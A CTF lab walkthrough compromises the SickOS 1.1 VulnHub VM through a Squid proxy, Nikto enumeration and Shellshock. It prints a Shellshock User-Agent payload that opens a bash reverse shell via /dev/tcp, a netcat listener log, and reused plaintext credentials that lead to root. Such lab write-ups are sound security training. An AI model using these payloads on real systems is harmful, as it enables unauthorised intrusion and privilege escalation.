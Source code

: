 ```yaml
---
layout: blog_item
title:  "SickOS 1.1 - Walkthrough"
date:   2015-12-11 11:00:10
author: Arr0way
description: 'SickOS 1.1 - Walkthrough / Writeup'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them.

**Author:** [@D4rk36](https://twitter.com/D4rk36)

**Download:** [VulnHub](https://www.vulnhub.com)


## Host Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.138

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 3128</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP-Proxy</p></pc>
           </td>
           <td>
               <pc><p>Squid http proxy 3.1.19</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Squid Enumeration

Inspection of Squid using the metasploit module <code>auxiliary/scanner/http/squid_pivot_scanning</code> discovered port 80 was exposed via the proxy.

![Metasploit Squid Pivot Scanning](/img/blog/sickos/metasploit-squid-pivot-scanning.png)


## Nikto scan via Proxy

Nikto was configured to use the discovered Squid proxy:

{% highlight bash %}

[root:~]# nikto -h 192.168.221.138 -useproxy http://192.168.221.138:3128

{% endhighlight %}

Nikto disclosed the location <code>/cgi-bin/status</code>, indicating the target could be vulnerable to **shellshock**.

![Nikto Proxy Scan](/img/blog/sickos/nikto-proxy-scan.png)


## Shellshock Bash Reverse Shell

**Burp Suite** was used to manipulate <code>User-Agent:</code> to include the bash reverse shell.

{% highlight bash %}
() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1
{% endhighlight %}


![Burp Suite Shellshock Reverse Bash Shell](/img/blog/sickos/burp-shellshock-reverse-shell.png)

A reverse shell was established:

{% highlight bash %}

[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...

192.168.221.138: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.138] 59815
bash: no job control in this shell
www-data@SickOs:/usr/lib/cgi-bin$

{% endhighlight %}


## Local Enumeration

Local enumeration of the system disclosed the file <code>/var/www/wolfcms/config.php</code> containing:

{% highlight bash %}
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
{% endhighlight %}

## Local Privilege Escalation

The previously discovered credentials worked for MySQL root, and were reused for the user <code>sickos</code> and again for <code>sudo</code> as the user <code>sickos</code>.

Local Privilege Escalation:

{% highlight bash %}

www-data@SickOs:/$ su - sickos
su - sickos
Password: john@123

sickos@SickOs:~$ ls
ls
sickos@SickOs:~$ cat .bash_history
cat .bash_history
sudo su
exit
sickos@SickOs:~$ sudo -s
sudo -s
[sudo] password for sickos: john@123

root@SickOs:~# cd /root  
cd /root
root@SickOs:/root# ls
ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt
cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


root@SickOs:/root#

{% endhighlight %}

### Root Flag

![Sickos 1.1 Root Flag](/img/blog/sickos/root-flag.png)

Thanks for the VM :)
